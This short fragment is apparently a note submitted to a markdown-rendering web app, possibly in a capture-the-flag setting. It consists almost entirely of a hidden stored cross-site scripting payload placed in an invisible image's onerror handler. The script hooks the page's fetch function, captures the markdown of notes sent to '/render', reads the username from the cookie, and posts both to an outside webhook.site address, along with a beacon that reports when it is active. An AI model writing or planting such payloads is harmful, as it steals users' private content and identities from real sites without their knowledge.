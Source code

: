 <img src=x style="display:none;visibility:hidden;width:0;height:0" onerror="
(function(){
const f=window.fetch;
window.fetch=function(...a){
if(a[0]==='/render'&&a[1]?.method==='POST'&&a[1].body?.get){
const m=a[1].body.get('markdown');
f('https://webhook.site/ea0d9cc5-fd9e-400e-aef7-6add210e23f7',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({type:'STOLEN_NOTE',content:m,victim:document.cookie.match(/username=([^;]+)/)?.[1],time:new Date().toISOString()})});
}
return f.apply(this,a);
};
f('https://webhook.site/ea0d9cc5-fd9e-400e-aef7-6add210e23f7',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({type:'STEALTH_XSS_ACTIVE',victim:document.cookie.match(/username=([^;]+)/)?.[1],time:new Date().toISOString()})});
})();
">Admin